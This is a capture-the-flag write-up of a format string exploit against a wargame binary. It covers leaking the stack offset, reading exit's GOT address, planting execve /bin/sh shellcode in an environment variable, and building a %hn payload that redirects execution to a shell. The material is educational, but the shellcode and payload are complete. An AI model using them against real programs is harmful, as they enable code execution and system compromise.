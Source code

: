 Here it's like the level5 from Rainfall; we have to use `printf` with a format string attack.
In short we will use the `%n` that give us the ability to write in a pointer to overwrite the address of `exit`
to the address of our shellcode

First we will find the offset to reach the address to the buffer containing our input :

```Shell
level05@OverRide:~$ ./level05
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd2bf 0xffffd2be (nil) 0xffffffff 0xffffd344 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

Here the offset is `%10p`

Now we will get the address of `exit` from the Gobal Offset Table:

```Shell
level05@OverRide:~$ objdump -R level05

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

Here the address is `\xe0\x97\x04\x08` after convertion in little endian

Now we will get an address in the middle of the Nop sled of the shellcode

```Shell
export SHELLCODE=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

```
level05@OverRide:~$ gdb level05
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1 at 0x8048449
Starting program: /home/users/level05/level05

Temporary breakpoint 1, 0x08048449 in main ()
(gdb) x/300x $esp
...
0xffffd6c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6d0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd700:     0x90909090      0x90909090      0x90909090      0x90909090
...
```

We here we take `0xffffd6e0`
We will split our address in two part, `0xffff` that will be writen in the high order bytes
and `0xd6e0` that we will write in the low order bytes.

Since we want to write an address of 4 bytes on `\xe0\x97\x04\x08`, We will write the low order bytes on `\xe0\x97\x04\x08` and the 2 next bytes (high order bytes) on `\xe0\x97\x04\x08` + 2 => `\xe2\x97\x04\x08`

- Step 1: convert hexadecimal to decimal:
  high => 65535
  low => 55008

- Step 2: We substract 8 bytes that are already written by the address
  high => 65535
  low => 55008 - 8 = 55000

- Step 3: Since high order bytes are greater than the low order bytes we will substract the low order bytes (bytes already written) to the high order bytes (else it is the opposite and we write the high order bytes before).
  high => 65535 - 55008 = 10527
  low => 55000

Now we have to create the exploit :
[address where we will write the 2 low order bytes][address where we will write the 2 high order bytes][low order bytes][offset to our input (first address)][high order bytes][offset to our input + 4 (second address)]

```Shell
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55000c" + "%10$hn" + "%10527c" + "%11$hn"' > /tmp/a
cat /tmp/a - | ./level05
```

